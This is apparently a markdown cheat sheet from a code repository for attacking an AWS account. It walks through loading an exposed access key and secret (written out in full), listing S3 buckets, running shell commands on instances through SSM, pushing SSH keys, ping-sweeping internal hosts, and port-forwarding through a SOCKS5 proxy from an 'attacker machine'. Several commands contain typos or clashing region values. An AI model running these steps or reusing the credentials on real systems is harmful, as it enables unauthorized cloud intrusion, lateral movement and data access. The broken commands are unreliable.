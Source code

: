 # Gaining access to Instance
```
aws configure --profile Test
AWS Access Key ID [None]: AKIAIRYBX5NHQLRB52WQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
```
# Upon adding the crednetail.next step is to enumerate
```
aws s3 ls --profile Test
aws s3 ls s3://file.resilient --profile Test
```

# If you have enough to utilize AWS Systems Manager Agent 
```
aws ssm describe-instance-information — profile Test

aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile Test
```
# Gaining access to vulerable Instance
```
apt-get isntall install ec2-instance-connect
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id i-0989ec8719613a4d9 --availability-zone us-west-2f --instance-os-user ec2-user --ssh-public-key file://My-Key.pub
ssh -i private.key ubuntu@54.211.12.132
```
# Upon Gaining access to Instance, Next Step is to enumerate the internal hosts and Services.
```
ifconfig or /sbin/ifconfig
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
ping6 -c4 -I eth0 ff02::1 | tee ipv6
```
# Port Forwarding if you have found any susceptible Services like Tomcat.Jboss and Weblogic
```
ssh -i private.key ubuntu@54.211.12.132 -L 8080:127.0.0.1:8080 -N -f

wget https://raw.githubusercontent.com/mfontanini/Programs-Scripts/master/socks5/socks5.cpp

The following variable should be changed
define SERVER_PORT 7777
#define USERNAME "NLK"
#define PASSWORD "123456@*&<>"

On your Attacker Machine,proxychains setting must be amend like information below

socks5 54.211.12.132 7777 NLK 123456@*&<>
proxychains firefox 127.0.0.1:8080
```
